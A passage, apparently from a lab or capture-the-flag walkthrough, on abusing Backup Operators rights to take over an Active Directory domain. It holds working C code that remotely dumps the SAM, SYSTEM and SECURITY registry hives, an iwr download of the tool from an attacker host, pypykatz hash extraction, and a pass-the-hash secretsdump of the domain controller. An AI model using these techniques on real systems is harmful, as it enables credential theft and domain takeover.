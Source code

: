         result = RegConnectRegistryA("\\\\<computername>", HKEY_LOCAL_MACHINE,&hklm);
        if (result != 0) {
            printf("RegConnectRegistryW: %d\n", result);
            exit(0);
        }
        for (int i = 0; i < 3; i++) {

            printf("Dumping %s hive to %s\n", hives[i], files[i]);
            result = RegOpenKeyExA(hklm, hives[i], REG_OPTION_BACKUP_RESTORE | REG_OPTION_OPEN_LINK, KEY_READ, &hkey);
            if (result != 0) {
                printf("RegOpenKeyExA: %d\n", result);
                exit(0);
            }
            result = RegSaveKeyA(hkey, files[i], NULL);
            if (result != 0) {
                printf("RegSaveKeyA: %d\n", result);
                exit(0);
            }
        }
    }

This allows us to connect to the remote registry and use our Backup Operators privileges to copy out SAM/SYSTEM/SECURITY from LusDC to LusMS. In order to use the tool we compile it with Visual Studio & upload it to LusMS. Then we dump the files from the registry on the dc, to “\windows\temp” on the dc:

grab sam system file

    >_ iwr http://10.8.0.2/SeRemoteBackup.exe -outfile SeRemoteBackup.exe
    >_ .\SeRemoteBackup.exe
    Dumping SAM hive to C:\windows\temp\sam.hive
    Dumping SYSTEM hive to C:\windows\temp\system.hive
    Dumping SECURITY hive to C:\windows\temp\security.hive

crack hash

    pypykatz registry --sam sam --security security system
    ...
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:1e10fc3898a203cbc159f559d8183297:::
    ...
    === LSA Machine account password ===
    History: False
    NT: 66ff...

    We dumped the local administrator hash, if the domain administrator password would be the same we would be done here. If not, we can use the machine account hash to do a proper secretsdump now and use any domain admin to log in:

    impacket-secretsdump 'LusDC$'@10.10.219.197 -hashes :66ff...
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:b8...
    ...

